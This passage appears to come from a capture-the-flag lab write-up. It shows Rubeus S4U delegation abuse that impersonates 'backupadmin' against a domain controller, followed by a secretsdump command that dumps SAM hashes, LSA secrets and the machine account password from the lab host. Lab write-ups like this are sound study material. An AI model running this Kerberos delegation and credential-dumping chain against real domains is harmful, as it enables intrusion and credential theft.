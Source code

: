 ```sh
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3 

[*] Action: S4U

[*] Using rc4_hmac hash: B52B582F02F8C0CD6320CD5EAB36D9C6
[*] Building AS-REQ (w/ preauth) for: 'rustykey.htb\it-computer3$'
[*] Using domain controller: fe80::e5b9:1d07:4258:53f5%11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFmDCCBZSgAwIBBaEDAgEWooIEqDCCBKRhggSgMIIEnKADAgEFoQ4bD<snip>hsGa3JidGd0GwxydXN0eWtleS5odGI=


[*] Action: S4U

[*] Building S4U2self request for: 'it-computer3$@RUSTYKEY.HTB'
[*] Using domain controller: dc.rustykey.htb (fe80::e5b9:1d07:4258:53f5%11)
[*] Sending S4U2self request to fe80::e5b9:1d07:4258:53f5%11:88
[+] S4U2self success!
[*] Got a TGS for 'backupadmin' to 'it-computer3$@RUSTYKEY.HTB'
[*] base64(ticket.kirbi):

      doIFtjCCBbKgAwIBBaEDAgEWooIEzzCCBMth<snip>aqA4bDFJVU1RZS0VZLkhUQqkaMBigAwIBAaERMA8bDWl0LWNvbXB1dGVyMyQ=

[*] Impersonating user 'backupadmin' to target SPN 'cifs/dc.rustykey.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.rustykey.htb'
[*] Using domain controller: dc.rustykey.htb (fe80::e5b9:1d07:4258:53f5%11)
[*] Sending S4U2proxy request to domain controller fe80::e5b9:1d07:4258:53f5%11:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.rustykey.htb':

      doIGfjCCBnqgAwIBBaEDAgEWooIFjzCCBY<snip>0VZLkhUQqkiMCCgAwIBAqEZMBcbBGNpZnMbD2RjLnJ1c3R5a2V5Lmh0Yg==
```

Using that ticket, we can use secretsdump remotely with the kirbi ticket `ticketConverter.py` to ccache.

```sh
 KRB5CCNAME=./misc.ccache secretsdump.py -k -no-pass dc.rustykey.htb

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x94660760272ba2c07b13992b57b432d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3aac437da6f5ae94b01a6e5347dd920:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesnt have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
RUSTYKEY\DC$:plain_password_hex:0c7fbe96b20b5afd1da58a1d71a2dbd6ac75b42a93de3c18e4b7d448316ca40c<snip>b4a4d55231d667ca4ba2ad36640985d9b18128f7755b25
RUSTYKEY\DC$:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::
[*] DefaultPassword 
```